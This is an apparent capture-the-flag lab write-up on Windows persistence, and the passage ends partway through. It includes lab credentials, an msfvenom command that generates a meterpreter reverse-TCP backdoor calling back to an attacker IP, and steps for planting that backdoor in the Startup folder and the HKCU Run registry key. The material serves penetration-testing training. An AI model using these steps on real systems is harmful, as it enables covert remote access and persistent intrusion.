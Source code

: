 > Persistence

Persistence is a post-exploitation activity used by penetration testers in order to keep access to a system throughout the whole assessment and not to have to re-exploit the target even if the system restarts.

It can be considered that there are two types of persistence. These two types are:

1. Low privileged persistence
2. Privileged user persistence

# Low privileged persistence:

The penetration tester gained and uses persistence techniques to keep his access to the target system under a normal user profile/account (a domain user with no administrative rights).

# Privileged user persistence:

After gaining access to a system, sometimes (because it would be inaccurate to say always), a penetration tester will do privilege escalation in order to gain access to the highest privilege user that can be on a Windows machine (nt authority\system).

After privilege escalation, he will use persistence in order to keep the access he gained.

# Default Credentials

`tryhackme`:`tryhackme123`

Let's create a backdoor using msfvenom.

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.8.107.21 LPORT=1234 -f exe > shell.exe
```

Let's pass it to the attacking machine using our python server but we have to make the internet explorer accept our site.

# Steps to follow in Internet Explorer

1. Go to Internet Explorer settings and choose "Internet Options".
2. Click on the "Security" tab, select "Trusted Sites" and then click on the "Sites" button. 
3. Fill the "Add this website to the zone" field with your IP address and click the "Add" button.

Now we can access our python server here. We got a meterpreter session as `PERSISTENCE\tryhackme`.

# Low privileged Persistence

1. The path of the startup folder is: `C:\Users\%username%\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup.`. Browse to that path and upload the binary you generated with msfvenom. We can use upload utility here.

2. Depending on the registries a low privileged user might be able to edit them. With this in mind, an attacker could edit the registries to achieve persistence. An example of an editable registry is: `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run`
First, let's move the backdoor to the AppData folder. You can either move it from the Startup folder or upload it again to the AppData folder.
